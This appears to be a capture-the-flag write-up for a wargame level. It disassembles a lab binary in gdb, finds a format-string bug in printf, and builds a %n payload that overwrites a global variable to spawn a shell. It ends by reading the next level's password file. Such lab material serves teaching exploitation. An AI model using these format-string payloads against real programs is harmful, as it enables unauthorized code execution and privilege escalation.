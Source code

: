 # Level 3

```bash 
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3

```

## Testing the program

```bash
$ ./level3
a
a
```

The program displays the input


## Learning more

```bash
(gdb) disas main
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

The main calls a function 'v'. 

```bash
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

We see that the value at address 0x804988c is being put in the eax container. 
This value is then compared to 64 (Ox40 in hexadecimal).

```bash
0x080484da <+54>:	mov    0x804988c,%eax
0x080484df <+59>:	cmp    $0x40,%eax
```

Using gdb we can check the name of the variable at 0x804988c
```bash
(gdb) info variables
All defined variables:
[...]
0x0804988c  m
```

If it corresponds to 64 a call to system is made.

```bash
0x08048513 <+111>:	call   0x80483c0 <system@plt>
```


We can also see a call to printf() function wich is vulnerable to exploit.

```bash
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```

## Getting the pass

We are going to modify the value of the variable located at 0x804988c so that it equals 64, in order for the program to launch the system to ("bin/sh"). 


### Finding where is our input

First we need to know where our input is located on the stack so we can manipulate the addresses later on. 

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
```

61616161 = "aaaa", in hexadecimal.
So our input is at the 4th slot (%4$x) in the stack. 

### Injecting m address

We want to write in the address 0x0804988c, so we pass it as little endian at the beginning of our payload. 

```bash
$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
? 200 b7fd1ac0 b7ff37d0 804988c
```

### Writing into the memory 

%n allows us to write, in an address, the number of characters that have been printed. 
```bash
printf("AAAAA%n", addr);
```
will write 5 (the number of chars before %n) to addr.


### Reaching the 64 value 

We want %n to write 64 in the address 0x804988c.

However we have already 4 characters for the address, so we only need 60 chars to reach the total. 

Final payload : 
```bash
$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
$ cat /tmp/exploit | ./level3
```

Explanation :
```plaintext
\x8c\x98\x04\x08 → adresse de m
"A" * 60 → padding
"%4$n" → écrit le total (64) à l'adresse au 4e emplacement dans la stack (notre adresse injectée)
```

```bash
python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
?AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami 
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```